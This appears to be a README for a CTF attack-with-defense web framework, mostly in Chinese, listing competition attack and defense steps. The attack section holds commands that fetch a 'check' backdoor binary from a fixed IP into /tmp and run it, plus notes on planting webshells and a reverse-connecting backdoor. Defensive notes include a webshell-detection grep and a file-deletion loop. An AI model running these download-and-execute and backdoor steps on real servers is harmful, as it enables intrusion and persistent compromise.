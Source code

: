 ## Introduction
This framework is used to help enjoy the AWD-web in CTF.
Maybe in the future we can expand it into a common security test platform.

### 根目录
- Beat.py 攻击脚本

### 修改内容
- setting.py里面flag的格式
- 交flag机的参数
- contro.py里面交flag的函数
- backdoor.c 里面回连IP
- filecmp里面文件夹位置

### 防御
- (找到代码位置)拖源代码
- 自己给自己上一句话，用www-data的权限给自己回连内存马
- 文件监控
- 抓流量*
- 流量分析
- 交flag机调试成功

### 攻击
- webshell扫描一波
- 发现目标页面
- 批量攻击
- 上马 
    - gcc -o check backdoor.c -lpthread -g
    - cd /tmp&&wget -O check 192.168.1.143/upload/check&&chmod +x check&&./check
    - cd /tmp;curl -o check 192.168.1.143/check;chmod +x check;./check
- 垃圾流量

### notice
- www-data 无法直接反弹shell，不能执行python -c
- 无法写日志：open_basedir限制，或/tmp权限不足(chmod 777 -R /tmp/log; chown www-data:www-data -R /tmp/log)


### 运维命令
#### 源码备份
- cd /var/www/html && zip -r www.zip ./*
- scp (-i id_rsa) root@127.0.0.1:/var/www/html/www.zip  ./
- 或者直接 scp (-i id_rsa) -r root@127.0.0.1:/var/www/html/  ./www
- 数据库备份 mysqldump -u root -p test(数据库名) > test.sql
#### 检查flag
- find -name "*.txt" | xargs cat | grep -B 10 -E "\w{4}-\w{4}-\w{4}-\w{4}-\w{3}-\w{4}"
#### 上WAF
- find /var/www/html -name "*.php"|xargs sed -i "s#<?php#<?php\ninclude_once('/var/www/html/log.php');\n#g"
#### 快速查一下shell
-`find /var/www/html -name "*.php" |xargs egrep 'assert|eval|phpinfo\(\)|\(base64_decoolcode|shell_exec|passthru|file_put_contents\(\.\*\$|base64_decode\('`
#### 循环杀PHP内存马
```
while true
do
rm .demo.php
done
```
